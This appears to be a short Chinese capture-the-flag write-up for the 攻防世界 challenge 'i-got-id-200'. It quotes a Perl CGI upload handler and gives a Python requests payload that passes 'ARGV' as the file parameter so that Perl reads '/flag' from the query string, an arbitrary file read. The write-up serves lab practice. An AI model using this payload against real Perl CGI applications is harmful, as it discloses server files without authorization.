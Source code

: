 - 攻防世界-i-got-id-200
- ```perl
  if ($cgi->upload('file')) { # 如果存在file文件
    my $file = $cgi->param('file'); # 那么取出file参数（POST优先）
    while (<$file>) { # 这行相当于$_=<$file> 读取$file[0]
        print "$_";
        print "<br />";
    }
  }
  ```
  
  payload:
  
  ```python
  r = requests.post(url + "?/flag", data = {
    "file": "ARGV"
  }, files = {
    "file": "asdf"
  })
  
  print(r.text)
  ```
  
  原理：
  
  perl 会取出`file[0]`，发现是 ARGV，于是就将`<$file>`变成了`<ARGV>`，也就是输入参数`/flag`，于是就可以进行任意文件读取
-